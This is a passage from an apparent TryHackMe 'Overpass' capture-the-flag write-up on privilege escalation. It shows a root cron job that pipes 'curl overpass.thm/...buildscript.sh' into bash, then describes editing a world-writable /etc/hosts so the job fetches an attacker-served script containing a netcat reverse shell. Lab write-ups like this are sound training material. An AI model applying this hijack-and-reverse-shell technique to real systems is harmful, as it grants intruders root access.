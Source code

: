 I'm unable to view files in /home/tryhackme.

Looking to see if anything is in /etc/crontab shows us:

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

I look in my web browser and going to IP/downloads/src and see the script file there. Looking at the script shows that it guilds source code into ~/src/overpass.go.

What's interesting is it's referencing overpass.thm. I look in /etc/hosts and see:

```
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
```

Looking at the /etc/hosts permissions:

```
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

So we're able to modify it, and should be able to create our own buildscript.sh file on our home system and have it reach out and get it, and it looks like it runs as root. So, we should be able to run whatever we want as root here.

I create the /downloads/src/buildscript.sh on my home system with the standard nc mkfifo reverse shell:

![](images/overpass10.png)

And modify the /etc/hosts file to point overpass.thm to my system:

![](images/overpass11.png)

<br>
